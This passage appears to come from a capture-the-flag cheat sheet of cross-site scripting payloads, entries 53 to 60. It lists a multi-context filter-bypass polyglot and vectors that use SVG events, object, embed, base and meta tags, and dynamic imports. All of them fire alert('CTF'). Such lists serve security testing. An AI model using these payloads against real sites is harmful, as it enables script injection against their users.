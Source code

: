 53. **File Upload Bypass**  
    ```
    <script>alert('CTF')</script>.png
    ```
    - **Contexts**: File uploads, HTML, JavaScript.
    - **Use Case**: Tests file upload parsing vulnerabilities.

54. **Original Requested Polyglot**  
    ```
    /*-/*/*\/*'/*"/**/(/* */onerror=alert('CTF') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('CTF')//>\x3e
    ```
    - **Contexts**: JavaScript, HTML, SVG, comments, attributes.
    - **Use Case**: Multi-context payload for advanced filter bypass.

55. **SVG Animation Event**  
    ```
    <svg><animate onbegin=alert('CTF')>
    ```
    - **Contexts**: SVG, HTML.
    - **Use Case**: Tests SVG animation event handlers.

56. **Object Tag Injection**  
    ```
    <object data=javascript:alert('CTF')></object>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests object tag data attributes.

57. **Embed Tag Polyglot**  
    ```
    <embed src=javascript:alert('CTF')>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests embed tag src attributes.

58. **Base Tag Hijack**  
    ```
    <base href=javascript:alert('CTF')//>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests base tag manipulation.

59. **Meta Refresh Polyglot**  
    ```
    <meta http-equiv=refresh content=0;url=javascript:alert('CTF')>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests meta tag redirects.

60. **Dynamic Import Polyglot**  
    ```
    import('data:application/javascript,alert("CTF")')
    ```
    - **Contexts**: JavaScript, HTML.
    - **Use Case**: Tests ES6 dynamic import vulnerabilities.
